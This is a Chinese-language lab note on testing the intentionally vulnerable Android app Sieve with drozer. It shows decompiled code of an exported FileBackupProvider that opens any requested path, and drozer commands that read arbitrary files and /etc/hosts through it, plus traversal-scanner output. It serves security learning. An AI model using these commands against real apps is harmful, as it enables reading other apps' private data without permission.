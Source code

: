 ```yaml
---
title: Test Sieve - content providers exported - File SystemBased
tags: [Android, Drozer]

category: "Tools/Others/Android Related/Drozer/Test Sieve"
---
```


# Test Sieve - content providers exported - File SystemBased
1. 有關於基於File System的Content Provider - 逆向
    在`com.mwr.example.sieve.FileBackupProvider`中可以特別注意onCreate以及ParcelFileDescriptor這個funnction
    ```java
    public class FileBackupProvider extends ContentProvider {
        ...
        @Override // android.content.ContentProvider
        public boolean onCreate() {
            this.sUriMatcher.addURI("com.mwr.example.sieve.FileBackupProvider", "*", DATABASE);
            return false;
        }

        @Override // android.content.ContentProvider
        public ParcelFileDescriptor openFile(Uri uri, String mode) {
            int modeCode;
            if (mode.equals("r")) {
                modeCode = 268435456;
            } else if (mode.equals("rw")) {
                modeCode = 805306368;
            } else if (mode.equals("rwt")) {
                modeCode = 805306368;
            } else {
                Log.w(TAG, "Unrecognised code to open file: " + mode);
                return null;
            }
            try {
                return ParcelFileDescriptor.open(new File(uri.getPath()), modeCode);
            } catch (FileNotFoundException e) {
                Log.e(TAG, "ERROR: unable to open file: " + e.getMessage());
                return null;
            }
        }
    ```
5. 實際讀取文件或是Path Traversal
    為了測試他真的能夠讀取到特定文件，我在手機的Download創了一個secret.txt，不管是哪一個file，都可以正常讀取
    ```bash
    $ echo "this is secret file" > /storage/emulated/0/Download/secret.txt
    dz> run app.provider.read content://com.mwr.example.sieve.FileBackupProvider/storage/emulated/0/Download/secret.txt
    Attempting to run shell module
    this is secret file

    dz> run app.provider.read content://com.mwr.example.sieve.FileBackupProvider/etc/hosts
    Attempting to run shell module
    127.0.0.1       localhost
    ::1             ip6-localhost
    ```
    也可以利用drozer自動找尋path traversal的漏洞在哪裡
    ```bash
    dz> run scanner.provider.traversal -a com.mwr.example.sieve
    Attempting to run shell module
    Scanning com.mwr.example.sieve...
    Not Vulnerable:
      content://com.mwr.example.sieve.DBContentProvider/Keys/
      content://com.mwr.example.sieve.DBContentProvider/Passwords
      content://com.mwr.example.sieve.DBContentProvider/Passwords/
      content://com.mwr.example.sieve.DBContentProvider/
      content://com.mwr.example.sieve.DBContentProvider/Keys
      content://com.mwr.example.sieve.DBContentProvider

    Vulnerable Providers:
      content://com.mwr.example.sieve.FileBackupProvider
      content://com.mwr.example.sieve.FileBackupProvider/
    ```